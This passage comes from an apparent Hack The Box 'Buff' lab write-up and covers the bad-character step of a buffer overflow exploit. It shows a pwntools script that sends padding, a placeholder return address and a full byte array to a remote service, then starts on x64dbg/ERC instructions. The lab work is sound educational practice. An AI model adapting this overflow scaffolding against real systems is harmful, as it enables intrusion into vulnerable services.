 #### looking for badchars

I'll start searching for badchars that might affect the execution of the shellcode, to do this I will send a bytearray of all the characters from `\x00` to `xff`



```python
from pwn import *

def exploit():
    
    buffer="\x55" * 1052
    eip="\x66" * 4
    
    all_chars=("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

    payload = buffer + eip + all_chars

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit() 
    
```

before sending the bytearray I reload the program in the debugger and generate a bytearray with ERC to compare the characters.

To create a bytearray with ERC

1. go to the log tab in xdbg

![Desktop View](/assets/img/htb/buff/log_tab.png)

2. on the command prompt at the bottom type `ERC --config setworkingdirectory C:\users\user\desktop\`
